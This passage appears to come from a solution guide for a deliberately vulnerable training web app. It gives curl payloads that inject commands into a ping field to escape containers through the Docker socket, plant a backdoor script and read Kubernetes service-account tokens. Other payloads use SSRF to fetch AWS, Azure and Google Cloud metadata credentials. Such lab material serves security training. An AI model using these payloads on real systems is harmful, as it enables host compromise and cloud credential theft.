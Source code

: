 #### Step 3: Container Escape Techniques
**Objective:** Escape containerized environments

**Using curl for container escape:**
```bash
# Docker socket abuse
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host"

# Privileged container escape
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;echo 'evil_command' > /host_mount/tmp/backdoor.sh"

# Kubernetes service account abuse
curl -X POST "http://localhost:5000/api/vuln/command-advanced" \
  -d "ping=127.0.0.1;kubectl --token=\$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) get pods --all-namespaces"
```

### Advanced Prevention Measures
1. Implement application sandboxing with seccomp-bpf
2. Use container security frameworks like Falco
3. Implement runtime application self-protection (RASP)
4. Use advanced input validation with ML-based detection
5. Implement network micro-segmentation

---

## 5. Advanced Data Exposure Techniques

### Vulnerability Description
Sophisticated techniques for identifying and exploiting data exposure vulnerabilities in complex applications.

### Impact
- Advanced reconnaissance and information gathering
- Configuration file extraction from distributed systems
- Cloud metadata service exploitation
- Advanced log file analysis and data mining

### Advanced Solution Steps

#### Step 1: Cloud Metadata Exploitation
**Objective:** Extract cloud service credentials and configuration

**Using curl for cloud metadata attacks:**
```bash
# AWS metadata service
curl "http://localhost:5000/api/vuln/data-exposure-advanced?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Azure metadata service
curl "http://localhost:5000/api/vuln/data-exposure-advanced?url=http://169.254.169.254/metadata/instance/compute?api-version=2019-06-01" \
  -H "Metadata: true"

# Google Cloud metadata
curl "http://localhost:5000/api/vuln/data-exposure-advanced?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
  -H "Metadata-Flavor: Google"
```
